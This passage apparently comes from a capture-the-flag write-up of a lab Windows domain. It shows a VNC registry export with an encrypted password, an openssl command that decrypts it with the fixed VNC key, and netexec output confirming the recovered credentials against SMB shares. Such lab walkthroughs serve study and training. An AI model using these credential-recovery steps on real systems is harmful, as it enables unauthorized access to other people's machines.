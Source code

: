 ```bash
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

Looks to be creds! Let's decrypt them:

We need the following part from the VNC file:
- "Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d

sT333ve2
```

Let's do the same `netexec` command as previous to confirm the credentials:
```bash
netexec smb 10.10.10.182 -u "s.smith" -p "sT333ve2" --shares

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```
